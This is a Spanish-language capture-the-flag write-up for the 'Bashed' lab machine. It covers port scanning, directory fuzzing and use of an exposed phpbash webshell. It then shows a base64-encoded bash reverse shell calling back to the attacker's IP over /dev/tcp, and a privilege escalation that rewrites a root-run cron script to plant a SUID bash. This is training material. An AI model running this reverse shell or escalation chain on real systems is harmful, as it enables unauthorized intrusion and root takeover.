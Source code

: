# Information
+ Machine Name: Bashed
+ IP: 10.129.161.34
+ OS: Linux
+ Difficulty: Easy

# Enumeracion

## Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n --open -vvv --min-rate 1000 -oG allports 10.129.161.34
```

```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

Solo puerto `80` http abierto.

Escaneo detallado:

```
nmap -p80 -sCV -oN targeted 10.129.161.34
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

## Web

En la pagina se habla de phpbash, una webshell semi interactiva.

![web.png](Images/web.png)

Mas info de phpbash [aqui](https://github.com/Arrexel/phpbash)
## Fuzzing

No hay nada mas interesante, así que aplico fuerza bruta de directorios con `ffuf`:

```
ffuf -u http://10.129.161.34/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
```

```
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 68ms]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 64ms]
php                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 47ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 66ms]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 109ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 67ms]
```

Encuentra 2 directorios interesantes `dev` y `uploads`

En el directorio `/dev` se encuentran `phpbash.php` y `phpbash.min.php`:

![dev.png](Images/dev.png)

Que permiten ejecutar comandos como el usuario `www-data`:

![phpbash.png](Images/phpbash.png)

Se puede leer la flag `user.txt`:

```
www-data@bashed
:/# cat /home/arrexel/user.txt
5c2ca***************************
```

# Shell como www-data:

```
echo "bash -i >& /dev/tcp/10.10.14.244/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDQvNDQzIDA+JjEK
```

Los `+` los tuve que poner en url encode `%2B` porque los interpreta como espacios.

Me pongo en escucha con `nc`:

```
root@kali /home/cangrejo # nc -lnvp 443
listening on [any] 443 ...
```

![shell.png](Images/shell.png)

Terminal en escucha:

```
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
```

# PrivEsc

## Shell como scriptmanager

Comienzo revisando los permisos `sudo` de `www-data`:

```
sudo -l
```

```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Puede ejecutar como `scriptmanager` cualquier cosa sin contraseña:

```
sudo -u scriptmanager bash -p
```

La opcion `-p` es para indicar que preserve los privilegios del usuario al iniciar la shell.

```
scriptmanager@bashed:~$ whoami
scriptmanager
```

Intento ejecutar de nuevo `sudo -l` pero requiere contraseña.

Busco archivos que le pertenezcan a `scriptmanager`:

```
find / -type f -user scriptmanager 2>/dev/null | grep -v "proc"
```

```
/scripts/test.py
<..snip..>
```

Hay un archivo `test.py` en `/scripts`, dentro de `/scripts` hay dos archivos:
`test.py` y `test.txt`.

test.py:
```
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

test.txt:

```
testing 123!
```

`test.py` abre el archivo `test.txt` en modo escritura y lo almacena en la variable `f`,
y escribe `testing 123!`

`test.txt` le pertenece a `root` por lo que si intento ejecutar el script obtengo permiso denegado.

Puede que `root` ejecute el script cada cierto tiempo, para comprobarlo cambie el `testing 123!` por `rootcrab was here`:

```
f = open("test.txt","w")
f.write("rootcrab was here!")
f.close
```

Con `watch` observo el contenido de test.txt: 

```
watch -n 1 cat test.txt
```

`-n 1` cada segundo.

```
Every 1.0s: cat test.txt                                                                                                                                          rootcrab was here!
```

## Shell como root:

Creo un directorio `test` en `/tmp` y Cambio el script `test.py`:

```
#!/usr/bin/python3

import os

os.system("cp /bin/bash /tmp/test/cangrejo.sh && chmod u+s /tmp/test/cangrejo.sh")
```

Esto hace una copia de `bash` en en directorio `/tmp/test` como `cangrejo.sh` y le asigna permisos SUID.

```
watch -n 1 ls /tmp/test 
```

```
Every 1.0s: ls /tmp/test

cangrejo.sh
```

Copia de bash creada por root con permisos SUID:

```
total 1020
-rwsr-xr-x 1 root          root          1037528 Jul 12 08:03 cangrejo.sh
```

```
scriptmanager@bashed:/tmp/test$ ./cangrejo.sh -p
cangrejo.sh-4.3# whoami
root
```

flag root.txt:

```
cangrejo.sh-4.3# cat /root/root.txt
99327***************************
```

# 🦀
